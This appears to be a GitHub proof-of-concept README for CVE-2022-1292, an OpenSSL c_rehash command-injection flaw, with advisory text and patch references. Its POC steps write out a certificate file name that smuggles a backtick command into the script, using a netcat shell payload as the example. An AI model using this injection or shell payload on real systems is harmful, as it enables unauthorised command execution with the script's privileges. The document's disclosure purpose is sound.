 # CVE-2022-1292 POC
![POC Screenshot](https://user-images.githubusercontent.com/105424007/171022147-b7699d2b-7dd3-4b49-9e52-767e36d1d3a2.png)

## Description
```
The c_rehash script does not properly sanitise shell metacharacters to prevent command injection. 
This script is distributed by some operating systems in a manner where it is automatically executed.
On such operating systems, an attacker could execute arbitrary commands with the privileges of the script.
Use of the c_rehash script is considered obsolete and should be replaced by the OpenSSL rehash command line tool.

This script is executed by update-ca-certificates, from
ca-certificates, to re-hash certificates in /etc/ssl/certs/. An attacker able
to place files in this directory could execute arbitrary commands with the
privileges of the script.
```
Command injection ocurrs because filenames are not properly sanitized:
*  ```$fname =~ s/'/'\\''/g;```
*  ```my ($hash, $fprint) = `"$openssl" crl $crlhash -fingerprint -noout -in '$fname'`;```

This part of the script is vulerable, as closing the backticks allows for command execution, for example a file named: ``` MyCert.crt`whoami` ``` will run "whoami".

## POC
1. Navigate to ``/etc/ssl/certs/`` (default) or other paths configured in update-ca-certificates
2. ```echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 127.0.0.1 12345\`"``` *(nc as payload example)*
3. Then wait until execution of update-ca-certificates. You can trigger it manually with ``c_rehash .``

## References
* https://www.cvedetails.com/cve/CVE-2022-1292/
* https://www.debian.org/security/2022/dsa-5139
* https://lists.debian.org/debian-lts-announce/2022/05/msg00019.html
* https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=1ad73b4d27bd8c1b369a3cd453681d3a4f1bb9b2
* https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=e5fd1728ef4c7a5bf7c7a7163ca60370460a6e23
* https://www.openssl.org/news/secadv/20220503.txt
